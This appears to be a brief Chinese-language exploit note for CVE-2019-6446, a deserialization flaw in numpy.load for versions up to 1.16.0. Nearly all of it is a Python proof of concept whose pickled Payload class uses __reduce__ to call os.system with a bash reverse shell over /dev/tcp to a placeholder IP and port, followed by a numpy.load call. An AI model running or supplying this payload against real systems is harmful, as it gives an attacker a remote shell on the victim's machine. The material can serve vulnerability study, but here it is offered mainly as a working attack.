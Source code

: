 # Numpy反序列化命令执行

CVE-2019-6446  
numpy 版本<=1.16.0才有漏洞, 漏洞在numpy.load  

```python
# 连到外面去

import os
import pickle

import numpy
from numpy import __version__
print(__version__)

class Payload(object):
    def __init__(self, ip, port):
        self.__ip = ip
        self.__port = port
    def __reduce__(self):
        code = 'bash -c "bash -i >& /dev/tcp/' + self.__ip + '/' + self.__port + ' 0<&1 2>&1"'
        # code = 'whoami'
        return (os.system,(code,))
payload = Payload('ip', 'port')
with open("payload",'wb') as f:
    pickle.dump(payload,f)

numpy.load('test-file.pickle')
```

源码获取: https://www.codercto.com/a/77458.html  


2019/11/1  
